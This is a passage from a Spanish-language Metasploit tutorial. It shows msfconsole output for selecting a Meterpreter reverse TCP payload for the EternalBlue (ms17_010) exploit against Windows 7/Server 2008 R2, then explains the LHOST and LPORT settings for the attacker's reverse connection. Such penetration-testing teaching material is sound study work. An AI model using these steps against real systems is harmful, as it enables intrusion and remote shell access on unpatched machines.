 ```r
   16  payload/windows/x64/meterpreter/reverse_tcp_rc4                      normal  No     Windows Meterpreter (Reflective Injection x64), Reverse TCP Stager (RC4 Stage Encryption, Metasm)
   17  payload/windows/x64/meterpreter/reverse_tcp_uuid                     normal  No     Windows Meterpreter (Reflective Injection x64), Reverse TCP Stager with UUID Support (Windows x64)


msf6 exploit(windows/smb/ms17_010_eternalblue) > set payload 15

payload => windows/x64/meterpreter/reverse_tcp
```

Después de seleccionar un payload, tendremos más opciones disponibles para nosotros.

```r
msf6 exploit(windows/smb/ms17_010_eternalblue) > show options

Module options (exploit/windows/smb/ms17_010_eternalblue):

   Name           Current Setting  Required  Description
   ----           ---------------  --------  -----------
   RHOSTS                          yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT          445              yes       The target port (TCP)
   SMBDomain      .                no        (Optional) The Windows domain to use for authentication
   SMBPass                         no        (Optional) The password for the specified username
   SMBUser                         no        (Optional) The username to authenticate as
   VERIFY_ARCH    true             yes       Check if remote architecture matches exploit Target.
   VERIFY_TARGET  true             yes       Check if remote OS matches exploit Target.


Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST                      yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Windows 7 and Server 2008 R2 (x64) All Service Packs
```

Como podemos ver, al ejecutar el comando `show payloads` dentro del módulo de exploit en sí, msfconsole ha detectado que el target es una máquina Windows, y por lo tanto solo mostró los payloads dirigidos a sistemas operativos Windows.

También podemos ver que ha aparecido un nuevo campo de opciones, directamente relacionado con lo que contendrán los parámetros del payload. Nos centraremos en `LHOST` y `LPORT` (nuestra IP del atacante y el puerto deseado para la inicialización de la conexión inversa). Por supuesto, si el ataque falla, siempre podemos usar un puerto diferente y relanzar el ataque.

---